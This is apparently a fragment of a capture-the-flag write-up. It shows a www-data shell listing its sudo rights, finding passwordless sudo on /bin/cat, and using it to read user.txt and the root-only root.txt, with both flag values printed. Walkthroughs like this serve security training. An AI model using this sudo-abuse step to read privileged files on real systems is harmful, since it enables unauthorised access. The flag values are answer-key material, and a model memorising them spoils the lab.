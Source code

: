 1) I see all the sudo privilegies:
```
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

2) I read the user.txt :
```
$ cat /home/merlin/user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

3) I read the root.txt:
```
$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
